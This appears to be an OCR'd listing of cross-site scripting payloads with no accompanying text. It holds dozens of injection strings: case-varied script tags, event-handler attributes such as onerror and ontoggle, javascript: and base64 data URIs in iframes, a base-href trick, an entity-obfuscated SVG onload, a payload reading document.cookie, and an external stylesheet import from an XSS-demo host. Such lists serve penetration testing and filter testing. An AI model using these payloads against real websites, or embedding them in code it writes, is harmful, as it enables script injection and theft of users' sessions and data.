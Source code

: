 &lt;body onload=alert(document.domain)&gt;
 
&lt;details open ontoggle=alert(document.domain)&gt;
 
&lt;embed src=javascript:alert(document.domain)&gt;
 
&lt;script&gt;alert(1)&lt;/script&gt;
 
&lt;sCrIpT&gt;alert(1)&lt;/sCrIpT&gt;
 
&lt;ScRiPt&gt;alert(1)&lt;/ScRiPt&gt;
 
&lt;sCrIpT&gt;alert(1)&lt;/ScRiPt&gt;
 
&lt;ScRiPt&gt;alert(1)&lt;/sCrIpT&gt;
 
&lt;img src=1 onerror=alert(1)&gt;
 
&lt;iMg src=1 oNeRrOr=alert(1)&gt;
 
&lt;ImG src=1 OnErRoR=alert(1)&gt;
 
&lt;img src=1 onerror="alert(&amp;quot;M&amp;quot;)"&gt;
 
&lt;marquee onscroll=alert(1)&gt;
 
&lt;mArQuEe OnScRoLl=alert(1)&gt;
 
&lt;MaRqUeE oNsCrOlL=alert(1)&gt;
 
&lt;a href=javascript:/0/,alert(%22M%22)&gt;M&lt;/a&gt;
 
&lt;a href=javascript:/00/,alert(%22M%22)&gt;M&lt;/a&gt;
 
&lt;a href=javascript:/000/,alert(%22M%22)&gt;M&lt;/a&gt;
 
&lt;a href=javascript:/M/,alert(%22M%22)&gt;M&lt;/a&gt;
 
&lt;base href=javascript:/M/&gt;&lt;a href=,alert(1)&gt;M&lt;/a&gt;
 
&lt;base href=javascript:/M/&gt;&lt;iframe src=,alert(1)&gt;&lt;/iframe&gt;
 
&lt;/textarea&gt;&lt;script&gt;var a=1//@ sourceMappingURL=//xss.site&lt;/script&gt;
 
"&gt;&lt;img src=x onerror=alert(document.cookie)&gt;.gif
 
&lt;div style="background-image:url(javascript:alert(/xss/))"&gt;
 
&lt;STYLE&gt;@import'http://ha.ckers.org/xss.css';&lt;/STYLE&gt;
 
&lt;iframe src=javascript:alert(1)&gt;&lt;/iframe&gt;
 
&lt;iframe src="data:text/html,&lt;iframe src=javascript:alert('M')&gt;&lt;/iframe&gt;"&gt;&lt;/iframe&gt;
 
&lt;iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+&gt;&lt;/iframe&gt;
 
&lt;iframe srcdoc=&lt;svg/o&amp;#x6E;load&amp;equals;alert&amp;lpar;1)&amp;gt;&gt;&lt;/iframe&gt;
 
&lt;iframe src=https://baidu.com width=1366 height=768&gt;&lt;/iframe&gt;
 
&lt;iframe src=javascript:alert(1) width=1366 height=768&gt;&lt;/iframe
 
&lt;form action=javascript:alert(1)&gt;&lt;input type=submit&gt;
 